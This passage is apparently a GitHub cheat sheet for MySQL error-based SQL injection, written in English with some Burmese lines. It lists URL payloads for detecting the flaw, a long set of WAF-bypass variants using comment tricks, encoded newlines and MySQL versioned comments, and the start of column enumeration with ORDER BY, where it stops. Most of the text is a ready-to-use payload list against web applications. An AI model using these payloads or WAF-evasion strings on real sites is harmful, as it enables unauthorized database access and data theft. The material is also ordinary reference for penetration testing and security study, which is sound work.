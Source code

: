 # MySQL Error based SQL Injection Cheatsheet

This is probably the easiest vulnerability along the SQL Injection attack. An attacker can enumerate and dump the MySQL database by using the SQL error messages to his advantage.

## Detecting the vulnerability

<code>https://site.com/index.php?id=1</code>

Website load successfully.

အဲ့တာကိုကျွန်တော်တို့ အနောက်ကနေ ' လေးထည့်ပေးလိုက်ရင် အောက်ကပုံစံမျိုး error message ကျလာမှာဖြစ်ပါတယ်။

<code>https://site.com/index.php?id=1'</code>

Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1\'</code>

Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1 and 0' order by 1--+</code>

ဒီလိုထည့်လိုက်ရင်တော့ website ကပုံမှန်အတိုင်း ပြန်ပြီးအလုပ်လုပ်သွားမှာဖြစ်ပါတယ်။

<code>https://site.com/index.php?id=2-1</code>

Website loads successfully.

<code>https://site.com/index.php?id=-1'</code>

Error message shows up again

<code>https://site.com/index.php?id=-1)'</code>

Error message shows up again

<code>https://site.com/index.php?id=1'-- -</code>

Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1'--</code>

Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1+--+</code>

Website might loads successfuly, but it might shows error also

# Bypassing WAF to detect the vulnerability (if the first methodology didn't work)
In some cases, WAF won't let you to cause errors on the website, so sending special queries might be needed to bypass WAF.

<code>https://site.com/index.php?id=1'--/**/-</code>

If no WAF Warning is shown and website loads up, we confirm the vulnerability, else try the following payloads.

<code>https://site.com/index.php?id=/^.*1'--+-.*$/</code>

<code>https://site.com/index.php?id=/*!500001'--+-*/</code>

<code>https://site.com/index.php?id=1'--/**/-</code>

<code>https://site.com/index.php?id=1'--/*--*/-</code>

<code>https://site.com/index.php?id=1'--/*&a=*/-</code>

<code>https://site.com/index.php?id=1'--/*1337*/-</code>

<code>https://site.com/index.php?id=1'--/**_**/-</code>

<code>https://site.com/index.php?id=1'--%0A-</code>

<code>https://site.com/index.php?id=1'--%0b-</code>

<code>https://site.com/index.php?id=1'--%0d%0A-</code>

<code>https://site.com/index.php?id=1'--%23%0A-</code>

<code>https://site.com/index.php?id=1'--%23foo%0D%0A-</code>

<code>https://site.com/index.php?id=1'--%23foo*%2F*bar%0D%0A-</code>

<code>https://site.com/index.php?id=1'--#qa%0A#%0A-</code>

<code>https://site.com/index.php?id=/*!20000%0d%0a1'--+-*/</code>

<code>https://site.com/index.php?id=/*!blobblobblob%0d%0a1'--+-*/</code>

## Find the number of columns using 'ORDER BY' query
Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY

<code>https://site.com/index.php?id=1' order by 1-- -</code> 
This query musn't shows up error, since there is no lower number than 1

